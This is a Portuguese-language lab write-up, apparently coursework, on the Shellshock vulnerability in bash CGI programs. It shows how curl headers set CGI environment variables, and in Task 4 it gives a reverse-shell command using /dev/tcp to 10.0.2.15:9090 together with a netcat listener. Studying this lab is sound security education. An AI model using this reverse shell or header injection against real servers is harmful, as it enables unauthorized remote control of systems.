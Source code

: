 ## Task 2: Passing Data to Bash via Environment Variable

Nesta tarefa o objetivo é perceber como podemos aproveitar uma vulnerabilidade shellshock num programa CGI baseado em bash. Para este efeito é necessário passar a nossa informação como atacantes para este programa, utilizando então variáveis de ambiente para o fazer.
Uma maneira de fazer isto é imprimir o conteúdo de todas as variáveis de ambiente no processo atual e perceber que informação do user entra nas variáveis de ambiente de um programa CGI.

A última linha do programa *getenv.cgi* executa esta mesma tarefa.

```

#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo "****** Environment Variables ******"
strings /proc/$$/environ

```


### Task 2.A: Using Browser


A lista de variáveis de ambiente é imprimida pelo servidor:

![browser env](https://github.com/Fernando-A-Rocha/FEUP-SSI/blob/main/1-Shellshock/Screenshots/envbrowser.png?raw=true)

Quando acedemos ao ficheiro *getenv.cgi* pelo browser a variável de ambiente HTTP_USER_AGENT é definida pelo próprio browser sendo este o próprio User Agent.

Observando através da extensão HTTP header Live Main o pedido HTTP efetuado conseguimos concluir que outras variáveis de ambiente como HTTP_ACCEPT, HTTP_ACCEPT_LANGUAGE, HTTP_ACCEPT_ENCODING, HTTP_ACCEPT_CONNECTION, HTTP_UPGRADE_INSECURE_REQUESTS tem o seu valor definido pelos campos correspondentes no pedido HTTP.


![pedido http](https://github.com/Fernando-A-Rocha/FEUP-SSI/blob/main/1-Shellshock/Screenshots/httpliveextension.png?raw=true)


### Task 2.A: Using Curl

Tendo como objetivo de definir a informação relativa a variáveis do ambiente para valores arbitrários, o comando **curl** permite aos users manipular campos num pedido HTTP utilizando certas opções.

Nesta tarefa teremos que descobrir quais campos são definidos pelas opções variadas do curl e descrever quais delas podem ser usadas para injetar informção para as variáveis de ambiente de um programa CGI.

Podemos descobrir isto observando a resposta de cada comando curl usando certas opções.

Se a opção ```-v``` estiver especificada então a operação executada é mais legível e é imprimido o cabeçalho do pedido HTTP:

![-v option on curl](https://github.com/Fernando-A-Rocha/FEUP-SSI/blob/main/1-Shellshock/Screenshots/2_A_curl_v_option.png?raw=true)


Se a opção ```-A``` estiver especificada então o conteúdo do user está especificado na variável de ambiente do servidor, neste caso define User-Agent para "my data":

![-A option on curl](https://github.com/Fernando-A-Rocha/FEUP-SSI/blob/main/1-Shellshock/Screenshots/2_A_curl_a_option.png?raw=true)

Se a opção ```-e``` estiver especificada então o conteúdo do user está especificado na variável de ambiente do servidor, neste cado define Referer para "my data":

![-e option on curl](https://github.com/Fernando-A-Rocha/FEUP-SSI/blob/main/1-Shellshock/Screenshots/2_A_curl_e_option.png?raw=true)

Se a opção ```-H``` estiver especificada então o conteúdo do user está especificado na variável de ambiente do servidor, neste caso é incluído no pedido HTTP um novo campo referente a "AAAAAA: BBBBBB" sendo que esta informção é depois incluida nas variáveis de ambiente imprimidas na forma de HTTP_AAAAAA=BBBBBB:

![-H option on curl](https://github.com/Fernando-A-Rocha/FEUP-SSI/blob/main/1-Shellshock/Screenshots/2_A_curl_h_option.png?raw=true)

Como observamos, existe uma série de variáveis de ambiente, que são valores que um servidor web envia neste caso para o program CGI, que espelham informação sobre o servidor e não são modificadas e outras que dão informação sobre os utilizadores e podem ser modificadas como vimos. Ao usar o comando curl com as opções ```-A``` ```-e``` ```-H``` o atacante pode então injetar o seu próprio conteúdo para as variáveis de ambiente de um programa CGI alvo.

## Task 4: Getting a Reverse Shell via Shellshock Attack


Na tarefa anterior, nós os atacantes corria um comando no servidor e imprimir o resultado. No entanto, no mundo real os atacantes preferem correr um comando shell para que possam correr outros comandos enquanto que o programa shell está a correr.
Para este propósito, uma reverse shell é precisa, um processo shell iniciado numa máquina com o seu input e output controlado por outro utilizador num computador remoto.
O princípio de uma reverse shell é redirecionar o input e output  para uma conexão de rede.

Para executar esta tarefa, é necessário criar um servidor TCP que escuta uma conexão num port especificado, neste caso correr o comando ``` nc -l 9090 ``` para iniciar uma conexão entre o atacante e o servidor pelo port 9090.


De acordo com a secção **4 Guidelines: Creating Reverse Shell** ``` /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1 ``` inicia uma bash shell na máquina do servidor, sendo:

• ``` /bin/bash -i ```: opção i significa interativo, shell interativa.

• ``` > /dev/tcp/10.0.2.15/9090 ```: redireciona *stdout* para a conexão TCP para 10.0.2.15 port 9090.

• ``` 0<&1 ```: Indica que o programa shell tem o seu input vindo da mesma conexão TCP.

• ``` 2>&1 ```: Output de erros é redirecionado para o *stdout*.


Comando Final para concluir o ataque:

![Final Payload](https://github.com/Fernando-A-Rocha/FEUP-SSI/blob/main/1-Shellshock/Screenshots/commandtoReverseShell.png?raw=true)

Reverse shell criada:

![Final Payload](https://github.com/Fernando-A-Rocha/FEUP-SSI/blob/main/1-Shellshock/Screenshots/listeningNC.png?raw=true)





































